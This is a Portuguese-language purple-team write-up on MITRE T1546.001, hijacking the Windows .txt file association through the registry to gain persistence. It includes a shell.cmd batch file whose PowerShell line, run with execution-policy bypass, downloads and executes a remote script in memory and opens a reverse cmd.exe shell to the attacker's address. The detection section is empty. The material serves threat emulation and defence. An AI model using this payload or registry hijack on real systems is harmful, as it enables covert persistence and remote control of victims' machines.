










<p align="center">
  
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão

Nesta pesquisa, iremos abordar a tática [TA0003](https://attack.mitre.org/tactics/TA0003/) (Persistência), dando ênfase a sub-técnica [T1546.001](https://attack.mitre.org/techniques/T1546/001/) (Event Triggered Execution: Change Default File Association).

A tática de persisência é uma das maneiras pelas quais os invasores podem explorar eventos específicos do sistema para executar código malicioso de forma persistente. Neste tipo de ataque, os invasores modificam as configurações do sistema que controlam como os arquivos serão abertos por padrão quando um usuário interage com eles. Isso pode ser explorado por meio de diversas técnicas, incluindo, manipulação de resgistros do sistema ou exploração de vulnerabilidades em aplicativos que lidam com a abertura de arquivos.

Ou seja, quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo. A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

<p align="center">
  
  <br>
  Figura 1: Fluxograma de Execução de Serviço
</p>

**A priori, para executar o sequestro de extensão, é importante salientar que o atacante já possua o primeiro acesso inicial à máquina alvo, com privilégios administrativos. Portando, já ter realizado a Execução e Escalação de Privilégios na vítima**.

## Contexto
Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um shell reverso na máquina do atacante, a fim de obter persistência. Vale lembrar que essa técnica pode ser usada para modificar qualquer tipo de extensão de arquivo como ***.exe***, ***.dll***, ***.bat***, ***.cmd*** entre muitas outras extensões, que podem ser exploradas por invasores para obter persistência em um sistema.

**Info:** É possível executar este processo de duas maneiras: por meio da interface gráfica ou utilizando CLI como prompt de comandos (CMD).

Uma vez que essa associação de arquivo padrão é alterada, o código malicioso pode ser executado repetidamente sempre que o usuário tentar abrir um arquivo do tipo afetado, permitindo que o invasor mantenha acesso persistente ao sistema mesmo após reinicializações ou reinstalações do sistema operacional.

Por exemplo, um invasor pode modificar a associação de arquivo padrão para um tipo específico de arquivo, como documentos do Microsoft Word (.docx), para que, sempre que um usuário tente abrir esse tipo de arquivo, o sistema execute automaticamente um arquivo malicioso em vez de abrir o aplicativo correspondente. 

As seleções de associação de arquivos são armazenados no **Registro do Windows** e estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt** e, podem ser editados por usuários com permissões elevadas/administradores que tenham acesso ao Registro.

## Emulação de Ameaça I - Criação de Arquivo Malicioso Através de Interface Gráfica

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  
  <br>
  Figura 2: Locais de registro Global e Local
</p>

Quando um arquivo é aberto, o sistema operacional verifica os registros locais em (HKEY_CURRENT_USER) para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso não houver nenhuma entrada de registro associada, a verificação será feita na árvore de registro global (HKEY_CLASSES_ROOT).

<p align="center">
  
  <br>
  Figura 2: Locais de registro Global e Local
</p>

Acima, temos o exemplo de que a chave de registro local não possui nenhum aplicativo padrão designado para abrir arquivos de texto, confirmando a infromação acima. 

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Ao abir um arquivo ***.txt***, o windows por padrão sabe que para abrir esse tipo de extensão precisa usar o ***notepad.exe***. Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento *%1*, especifica um nome de arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  
  <br>
  Figura 3: Editor de registro HKEY_CLASSES_ROOT\txtfile\shell\open\command
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***test.txt*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  
  <br>
  Figura 4: Arquivo de teste para emulação
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"


```

Este comando do PowerShell baixa um script remoto chamado purplecat.ps1 e executa em memória, pois ele não toca no disco, e em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço IP 192.168.140.128 (ip da máquina atacante) na porta 8081, permitindo que comandos sejam executados cmd.exe nessa máquina.

A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command para C:\Users\Win-test\Desktop\shell.cmd, local onde nosso arquivo malicioso está gravado.

<p align="center">
  
  <br>
  Figura 5: Manipulador de registro sendo modificado
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  
  <br>
  Figura 6: Manipulador de registro modificado 
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para servir para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  
  <br>
  Figura 7: Comando servindo para baixar arquivo executado
</p>

O comando acima, serve o arquivo para outra pessoa baixar os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 

<p align="center">
  
  <br>
  Figura 8: Comando NetCat servindo como listener
</p>

Após realizar todos esses passos e o processo de persisência configurado na máquina alvo com seucesso, quando o usuário alvo abrir qualquer arquivo de texto, o arquivo malicioso será executado simultâneamente, a comunicação será estabelecida com o *listener* na porta **8081/TCP**, mencionada acima. Abaixo é possível visualizar a execução.

<p align="center">
  
  <br>
  Figura 9: Obtendo shell reverso com cmd
</p>

## Engenharia de Detecção


# Conclusão

Ao manipular essas chaves do registro, os invasores podem garantir que seu código malicioso seja executado sempre que o usuário iniciar uma sessão no sistema, permitindo a persistência do ataque. Para prevenir esse tipo de ataque, é importante adotar práticas de segurança robustas, os usuários devem monitorar regularmente as chaves de registro em HKCU em busca de alterações não autorizadas, manter o sistema e os aplicativos atualizados, restringir privilégios de usuário para minimizar o impacto de possíveis ataques e educar os usuários sobre práticas seguras de computação, como não abrir arquivos de fontes desconhecidas.
Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
